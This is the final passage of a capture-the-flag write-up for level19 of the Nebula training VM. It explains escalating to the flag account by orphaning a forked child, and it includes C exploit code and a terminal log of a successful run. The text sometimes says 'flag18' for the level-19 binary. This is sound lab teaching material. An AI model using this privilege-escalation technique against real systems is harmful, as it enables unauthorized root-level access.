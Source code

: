 ```C
    err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```

So we can get the shell we want if we can run this as root. How can we do that? This exploits involves a knowledge of Linux forks. Basically if a process forks and the parent dies, the child will automatically be run under `init`. This is called [Fork off and die](https://wiki.linuxquestions.org/wiki/Fork_off_and_die). So who does init run as?

```
level19@nebula:/tmp/flag19$ ps aux | grep init
root         1  0.0  0.6   3196  1512 ?        Ss   00:32   0:00 /sbin/init
```

In order to make use of this we need to run `flag18` as a forked process and then kill the parent. The arguments to `flag18` are passed onto the shell it executes, and thus we can make use of this. I'll write some C code to fork the `flag18` process to which we will pass the `getflag`. It should work.

```C
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
    int childPID = fork();
    if(childPID >= 0) { // forked
        if(childPID == 0) { // child
            sleep(1);
            setresuid(geteuid(),geteuid(),geteuid());
            char *args[] = {"/bin/sh", "-c", "/bin/getflag", NULL};
            execve("/home/flag19/flag19", args, envp);
        }
    }
    return 0;
}
```

Get the idea? Right, let's taste this pudding

```
level19@nebula:/tmp/flag19$ gcc forkit.c -o forkit
level19@nebula:/tmp/flag19$ ./forkit
level19@nebula:/tmp/flag19$ You have successfully executed getflag on a target account
```

**Nebula done.**

## Closing words

Firstly: Thanks for taking the time to read this. Please leave any feedback or comments below (or twitter/email if you prefer).

Secondly: If you are here because you are also playing _Nebula_ and are new to this like I am, this write up might seem like magic. You're struggling to figure out how to get past a certain level and then this text makes it seem like magic.

